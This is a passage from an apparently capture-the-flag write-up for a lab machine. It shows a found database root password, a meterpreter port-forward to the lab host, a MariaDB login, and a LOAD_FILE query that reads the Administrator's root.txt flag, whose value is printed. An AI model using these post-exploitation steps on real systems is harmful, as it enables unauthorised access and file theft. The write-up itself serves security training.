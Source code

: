 ```c
read_buffer = 2M
write_buffer = 2M

[myisamchk]
key_buffer = 20M
sort_buffer_size = 20M
read_buffer = 2M
write_buffer = 2M

[mysqlhotcopy]
interactive-timeout
```

| Username | Password   |
| -------- | ---------- |
| root     | ibWijteig5 |

We forwarded port `14406` and accessed the `database` using the credentials we found.

```c
meterpreter > portfwd add -l 14406 -p 14406 -r 10.129.223.154
[*] Forward TCP relay created: (local) :14406 -> (remote) 10.129.223.154:14406
```

```c
┌──(kali㉿kali)-[~]
└─$ mysql -h 127.0.0.1 -P 14406 -u root --skip-ssl -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 4
Server version: 10.1.19-MariaDB mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

## root.txt

From here our team member `mk0` went for the `quick kill` and used `LOAD_FILE` to read the `root.txt` not knowing that at this point we would had skipped about `75%` of the box but since we didn't had a `shell` as `administrator`, we went for the `full pwn`. No shell is not an option.

```c
MariaDB [(none)]> SELECT LOAD_FILE('C:\\Users\\Administrator\\Desktop\\root.txt');
+----------------------------------------------------------+
| LOAD_FILE('C:\\Users\\Administrator\\Desktop\\root.txt') |
+----------------------------------------------------------+
| 025834ef706debf0cc43acb56eb15b2d
                       |
+----------------------------------------------------------+
1 row in set (0.094 sec)
```
